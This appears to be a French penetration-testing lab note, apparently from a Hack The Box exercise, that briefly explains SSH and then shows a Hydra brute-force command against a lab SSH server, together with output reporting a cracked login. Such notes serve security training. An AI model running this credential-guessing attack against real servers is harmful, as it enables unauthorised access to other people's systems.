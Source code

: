 # SSH
Secure Shell (SSH) est un moyen plus sûr de se connecter à un hôte distant pour exécuter des commandes système ou transférer des fichiers d'un hôte vers un serveur. Le serveur SSH fonctionne par défaut sur le port TCP 22, auquel nous pouvons nous connecter à l'aide d'un client SSH. Ce service utilise trois opérations/méthodes de cryptographie différentes : le chiffrement symétrique, le chiffrement asymétrique et le hachage.

### Bruteforce - Hydra
#### SSH
Hydra est un outil permettant de faire du bruteforce sur plusieurs services différents, voici un exemple avec un bruteforce SSH

```
dsgsec@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
